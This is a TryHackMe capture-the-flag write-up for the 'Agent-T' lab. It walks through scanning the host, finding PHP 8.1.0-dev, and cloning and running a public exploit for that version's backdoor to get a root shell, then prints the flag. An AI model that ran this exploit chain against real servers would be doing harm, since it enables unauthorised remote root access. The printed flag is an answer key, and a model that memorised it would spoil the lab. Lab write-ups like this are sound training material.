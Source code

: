 # Security Misconfiguration

- **IP Target:** `10.10.45.54`
- **Domain Alias:** `agent-t.thm`
- **TryHackMe Lab:** [Agent-T](https://tryhackme.com/room/agentt)

---

### Host Enumeration
- **Update** `/etc/hosts`
- To simplify access using a domain name instead of IP:
```bash
$ echo "10.10.45.54 agent-t.thm" | sudo tee -a /etc/hosts
```

- **Ping the Host**
- Check if the host is reachable:
```bash
$ ping -c 3 agent-t.thm
```
- Result:
```matlab
3 packets transmitted, 3 received, 0% packet loss
```
- The host is up and responsive.

---

### Port Scanning & Service Enumeration

- **RustScan (Fast Port Scanner)**
```bash
$ rustscan -a agent-t.thm -- -A
```
- Results:
    - Open Port: `80/tcp`
    - Service: `HTTP (PHP cli server 5.5 or later — PHP 8.1.0-dev)`
    - Web Page Title: `Admin Dashboard`

- RustScan automatically integrates with Nmap for deeper service and OS detection.

---

### Web Service Analysis

- The web service is running PHP 8.1.0-dev. This is a development version of PHP and may have known vulnerabilities.

---

### Vulnerability Discovery
- **Google Dorking for Known Exploits**
- Use Google to search for public exploits for the PHP version:
```text
site:github.com intitle:PHP 8.1.0-dev inurl:exploit
```

- **Identified Exploit**
- Repository found:
```text
Anasi10/PHP-8.1.0-exploit: Backdoor command execution in PHP 8.1.0-dev
```
- This exploit leverages a backdoor in PHP 8.1.0-dev, which allows for remote code execution.

---

### Exploitation
- **Clone and Execute Exploit**
```bash
$ git clone https://github.com/Anasi10/PHP-8.1.0-exploit.git

$ cd PHP-8.1.0-exploit

$ chmod +x exploit.py

$ ./exploit.py http://agent-t.thm/
```

- **Result: Remote Shell Access**
```bash
$ pwd
/var/www/html

$ whoami
root

$ ls -al /
-rw-rw-r--   1 root root   38 Mar  5  2022 flag.txt

$ cat /flag.txt  
flag{4127d0530abf16d6d23973e3df8dbecb}
```
- We gained root access and captured the flag.

---
